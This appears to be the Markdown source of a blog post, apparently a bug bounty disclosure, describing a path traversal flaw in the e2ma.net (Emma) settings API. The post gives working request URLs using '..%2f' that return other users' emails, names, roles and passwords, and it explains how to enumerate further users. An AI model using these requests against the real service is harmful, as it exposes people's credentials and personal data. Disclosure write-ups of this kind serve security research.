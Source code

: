 ```yaml
---
layout: post
title: Emma Users Information Leak via endpoint traversal
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Step 1:

&nbsp;&nbsp;&nbsp;visit `https://settings.e2ma.net/` and login.

&nbsp;&nbsp;&nbsp;visit `https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password` here is endpoint when you use `..%2f`,and you can visit other endpoint, this endpoint allowe get some information like email,passwrod,every sensitive data,So use `..%2f` can get other user information, like:

{% highlight php %}
https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password

https://settings.e2ma.net/api/user/..%2ftest2@root.com?fields=user_id,email,user_name_first,user_name_last,role,password
{% endhighlight %}

&nbsp;&nbsp;&nbsp;I just only have two email,so I can give you two user information for this demo!You can change `test2@root.com` to a different email address and get other user information like username password.


<img src="https://i.loli.net/2019/05/09/5cd3e8fc1cd62.jpeg">


&nbsp;&nbsp;&nbsp;But then I found can get other user email address via this endpoint,and Just need change 1900932, You can get another user’s email address,you can get everything information about this user in this endpoint: `https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password` here is endpoint when you use `..%2f`,and you can visit other endpoint,and this endpoint allowe get some information like email,passwrod,every sensitive data:


<img src="https://i.loli.net/2019/05/09/5cd3e8fc20656.jpeg">